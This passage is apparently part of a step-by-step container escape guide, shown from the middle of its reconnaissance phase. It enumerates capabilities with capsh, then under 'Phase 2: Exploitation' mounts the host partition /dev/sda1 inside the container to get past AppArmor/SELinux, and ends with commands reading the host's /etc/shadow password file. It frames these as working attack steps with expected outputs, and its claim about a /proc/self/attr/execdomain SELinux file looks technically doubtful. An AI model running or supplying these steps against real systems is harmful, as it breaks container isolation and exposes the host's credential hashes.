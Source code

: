 *   **Explanation:** This command reads the contents of the `/proc/self/attr/execdomain` file, which contains the SELinux domain currently applied to the process.
*   **Why:** This helps determine if an SELinux domain is in place and, if so, its name.
*   **Expected Output:** If SELinux is enabled, the output will be the name of the SELinux domain. If SELinux is not enabled, or if the SELinux domain has not been properly configured, the output will be "unconfined".

**Step 4: Enumerate Capabilities**

```bash
capsh --print
```

*   **Explanation:** This command uses `capsh` to display the Linux capabilities currently enabled for the process.
*   **Why:**  Understanding the allowed capabilities is crucial because some capabilities can be used to bypass security restrictions.
*   **Expected Output:** A list of capabilities granted to the process.  Look for capabilities like `cap_sys_module`, `cap_dac_override`, `cap_dac_read_search`, `cap_sys_admin`, and `cap_net_admin`. If many are enabled this could be a sign of a permissive profile.
*   **Variations:**  If `capsh` is not available, you may need to install it using `apt-get update && apt-get install libcap2-bin` or similar, depending on the container's base image.

**Phase 2: Exploitation**

The following steps demonstrate a potential bypass by attempting to mount a file system. This technique can be effective if the AppArmor/SELinux profile is not properly restricting `mount` syscall or access to `/dev/sd*` devices.

**Step 5: Attempt to Mount a Host Device**

```bash
mkdir /mnt/host
mount /dev/sda1 /mnt/host
```

*   **Explanation:** This command attempts to mount the first partition of the first SATA drive (`/dev/sda1`) onto the `/mnt/host` directory inside the container.
*   **Why:** If successful, this will give the container read/write access to the host system's file system.  This is a classic bypass technique because it directly exposes the host.
*   **Expected Output:**
    *   **Success:** If successful, the command will complete without errors.  You can then navigate to `/mnt/host` and explore the host's file system.
    *   **Failure (AppArmor/SELinux preventing the mount):**  You will receive an error message indicating permission denied, typically related to AppArmor or SELinux. For example: `mount: /mnt/host: permission denied`.
    *   **Failure (Device not found):**  An error like `mount: /dev/sda1: No such device or address` means that device is not available. You may need to enumerate block devices using `lsblk` and try other partitions.

**Step 6: (If Mount Successful) Access Host Files**

```bash
ls /mnt/host/etc/shadow
cat /mnt/host/etc/shadow
```
